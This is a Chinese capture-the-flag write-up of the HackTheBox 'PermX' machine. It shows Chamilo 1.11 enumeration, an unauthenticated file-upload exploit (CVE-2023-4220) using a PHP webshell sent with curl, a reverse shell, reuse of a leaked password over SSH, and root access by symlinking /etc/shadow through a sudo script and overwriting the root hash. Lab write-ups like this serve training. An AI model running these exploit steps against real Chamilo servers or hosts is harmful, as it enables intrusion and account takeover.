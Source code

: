 ```yaml
---
description: Linux / Easy / chamilo 1.11
---
```


# ✔️ permX

## 建立立足点

### 信息收集

* 使用Nmap对目标开放端口进行扫描：

```bash
nmap -sC -sV -p- -oA permx 10.129.76.98 --open
```

<figure><img src="../../.gitbook/assets/1 (6).png" alt=""><figcaption></figcaption></figure>

* 有个开放端口80，登录其页面查看详情，发现是一个线上学习网站：

<figure><img src="../../.gitbook/assets/2 (6).png" alt=""><figcaption></figcaption></figure>

* 使用dirsearch工具对80端口扫描以枚举隐藏文件/目录，结果无收获：

```bash
dirsearch -u http://permx.htb/ -x 403,404,400
```

<figure><img src="../../.gitbook/assets/4 (7).png" alt=""><figcaption></figcaption></figure>

* 再试试wfuzz对其子域名进行枚举，看看还有没有其他页面：

```bash
wfuzz -c -u http://permx.htb -H "Host:FUZZ.permx.htb" -w subdomains-top1million-110000.txt --hc 404 -t 200 --hl 9
```

<figure><img src="../../.gitbook/assets/5 (7).png" alt=""><figcaption></figcaption></figure>

* 先将域名及其子域名和IP都写进hosts文件中：

<figure><img src="../../.gitbook/assets/3 (6).png" alt=""><figcaption></figcaption></figure>

* 找到2个子域，分别登录查看后发现，lms.permx.htb显示的是名为chamilo应用程序的登录界面，并在页面底部返现了管理员的用户名和邮箱（**Administrator : Davis Miller**）：

<figure><img src="../../.gitbook/assets/6 (7).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/7 (8).png" alt=""><figcaption></figcaption></figure>

* 初步查看了以一下lms子域的源码，决定使用gobuster对其隐藏文件/目录进行枚举：

```bash
gobuster dir -u http://lms.permx.htb/ -w /usr/share/wordlists/dirb/common.txt
```

<figure><img src="../../.gitbook/assets/8 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 有好几个文件都值得关注一下：
  * \`/documentation\`
  * \`/robots.txt\`
  * \`/web.config\`
* 查看\`/robots.txt\`可得知：

<figure><img src="../../.gitbook/assets/9 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 进入\`/documentation\`页面后，发现其运行的chamilo应用程序的版本号：1.11

<figure><img src="../../.gitbook/assets/10 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 接下来依次查看了各个隐藏文件/目录的相关页面，信息如下：

<figure><img src="../../.gitbook/assets/11 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/12 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/13 (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/14 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

该页面中的好多php文件在浏览器中不可读，但是看起来都是配置文件，因此后续可能可以利用到，需要关注起来

### 漏洞查阅

* 从之前的枚举信息中已知正在运行的程序是chamilo 1.11版本，因此搜索后发现多个相关的可利用漏洞，从最近的开始尝试：（CVE-2023-4220）

<figure><img src="../../.gitbook/assets/15 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 阅读漏洞说明后，发现可以在该应用的特定路径下上传没有任何限制的文件，这意味着我可以直接上传一个php的反弹shell：

<figure><img src="../../.gitbook/assets/16 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

* 这里先简单写一个php一句话木马，检测一下当前目标系统是否存在该漏洞：

```bash
echo '<?php system("id");?>' > shell.php
# 上传这个一句话木马脚本：
curl -F 'bigUploadFile=@shell.php' 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
# 触发这个脚本后，发现利用成功，这意味着我可以直接上传真正的php反弹shell:
curl 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/shell.php'
```

* 这里使用的是一个我在靶机训练中常用的一个反弹shell的php脚本（pentestmonkey），修改脚本中kali端的IP及监听端口后，即可上传：

<figure><img src="../../.gitbook/assets/18 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 监听好自己设置的端口，上传该脚本等待回连：

<figure><img src="../../.gitbook/assets/19 (6).png" alt=""><figcaption></figcaption></figure>

### GET SHELL

* 成功获得反弹shell，此时开始枚举目标主机中的各个文件内容，查找第一个flag：

<figure><img src="../../.gitbook/assets/20 (5).png" alt=""><figcaption></figcaption></figure>

* 此处找到了刚才在浏览器端无法查看的各个配置文件：

<figure><img src="../../.gitbook/assets/21 (3).png" alt=""><figcaption></figcaption></figure>

* 这其中有几个文件都值得关注：

<figure><img src="../../.gitbook/assets/22 (3).png" alt=""><figcaption></figcaption></figure>

* 最终在\`configuration.php\`文件中发现了目标数据库的登录凭证：

<figure><img src="../../.gitbook/assets/23 (3).png" alt=""><figcaption></figcaption></figure>

* 但是该目标并没有开放3306端口，剩下能利用的是端口22上的ssh服务，或许有重用密码的可能，但是用以上的凭证(chamilo:03F6lY3uXAP2bkW8)无法成功登录ssh服务，于是进行进一步信息枚举：

<figure><img src="../../.gitbook/assets/24 (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/25 (2).png" alt=""><figcaption></figcaption></figure>

* 通过以上可知目标机器上的用户里并没有chamilo这个用户名，并且在/home目录中有个/mtz的目录无权访问，而/etc/passwd里正好有这个用户名，于是利用刚才的密码和mtz这个用户名进行ssh登录尝试，成功：

```bash
ssh mtz@10.129.76.98
03F6lY3uXAP2bkW8
```

<figure><img src="../../.gitbook/assets/26 (2).png" alt=""><figcaption></figcaption></figure>

## 权限提升

### 本地信息枚举

* 经过初步的手动枚举，\`sudo -l\`发现了当前可以用sudo身份执行且无需密码的文件是/opt目录下的acl.sh文件，阅读该文件中的代码可得知该脚本是用于指定用户对特定文件的访问权限的，并且要求必须是在/home/mtz/目录下进行的：

<figure><img src="../../.gitbook/assets/27 (2).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

* 由于该脚本可以修改/home/mtz/目录下的所有的文件权限，那么这就意味着我可以使用符号链接攻击将/etc/shadow文件映射到这里，修改其root密码即可完成提权：

```bash
# 当前所处的位置应就是/home/mtz/目录下：
ln -s / root
ls -l
sudo /opt/acl.sh mtz rwx /home/mtz/root/etc/shadow
echo 'root:$6$tPR3EAkzdPCSN2hT$fwoI8zEzWpKFxmw8JlLFjczHcd1sdLTXzIZuXUx6qwKdG3u2ynkEsDRxx/kf24WAI7gvgiqo.6r6qJ9uEecPs/:19742:0:99999:7:::' >/etc/shadow
su root
```

* 因为这里是需要修改/etc/passwd文件中的root的密码hash部分，所以，需要事先制作一个自定义的root账户的密码hash：

```bash
openssl passwd -6 fiii
```

<figure><img src="../../.gitbook/assets/28 (2).png" alt=""><figcaption></figcaption></figure>

### ROOT

<figure><img src="../../.gitbook/assets/29 (2).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
本例简单偏中等难度，在get shell阶段，锁定对了漏洞后就非常简单；提权阶段需要搞清楚当前低权限账户有完全控制权的那个文件的具体用法后，才能提权成功。

有时候，在初步信息枚举阶段获得到足够多的看似有用的信息，也算得上是一种“兔子洞”。这个时候需要将信息分门别类出来，只关注那些最直接的信息，而不是其他的“噪音”。
{% endhint %}
